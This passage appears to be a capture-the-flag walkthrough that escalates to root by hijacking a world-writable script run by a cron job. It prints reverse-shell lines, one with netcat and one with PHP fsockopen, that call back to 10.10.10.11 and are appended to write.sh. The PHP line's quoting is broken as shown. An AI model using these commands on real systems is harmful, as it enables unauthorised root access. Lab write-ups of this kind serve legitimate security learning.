 Anyone can read local.txt on www-data's home directory, so that's probably the user flag.  And what's that running every 5 minutes?  A script called "finally.sh" in /var/www/html?  Let's go look.

>$ cat finally.sh
>#!/bin/sh
>
>./write.sh

So "finally.sh" just runs "write.sh"...
>$ cat write.sh
>#!/bin/sh
>
>touch /tmp/gateway

And all "write.sh" does is touch a directory (to update the modified timestamp).  Can I write to either of these files?  That would be nice.
>$ ls -al
>total 40
>drwxr-xr-x 3 www-data www-data  4096 Jul 24 20:36 .
>drwxr-xr-x 4 www-data www-data  4096 Jul 24 20:37 ..
>-rwxr-xr-x 1 root     root        22 Oct 20  2019 finally.sh
>-rw-r--r-- 1 www-data www-data 10918 Oct 20  2019 index.html
>-rw-r--r-- 1 www-data www-data    21 Oct 20  2019 phpinfo.php
>-rw-r--r-- 1 root     root         9 Oct 21  2019 robots.txt
>drwxr-xr-x 4 www-data www-data  4096 Jan  4 10:13 sar2HTML
>-rwxrwxrwx 1 www-data www-data    30 Jul 24 20:36 write.sh

Well, anyone can write to "write.sh" so there's out ticket.  But what to write?  Netcat?  Open that shell.sh we used inside of the "sar2HTML" directory? I checked netcat and sure enough it's installed.  This will be easy!  We'll just have netcat execute another bash shell back to us:
>$ echo "nc 10.10.10.11 9999 -e /bin/bash" >> write.sh
I open a listener on 9999 and go make a cup of tea.  Black tea.  No sugar, no cream.  Just good hot tea.  I check my listener... nothing.  Has 5 minutes passed?  I glance at the cron job and it's every 5 minutes... so 12:00, 12:05... it's definitely been 5 minutes.  Nothing.  I double check the above commands, looking for typos but it all looks good.  Another 5 minutes... nothing.  Dang it!  Let's run the command outside of "Write.sh" just to triple check.  Awww man, the version of netcat doesn't support "-e" or maybe the port is in use?  I try another port, nothing.

I'm so close... well, php worked before, so let's use it again.
>$ echo "php -r $sock=fsockopen("10.10.10.11",9999);exec("/bin/sh -i <&3 >&3 2>&3");'" >> write.sh

BOOM!  Shell pops, whoami says I'm root.  Collect flag, ganme over.

What other ways could I have gotten root?

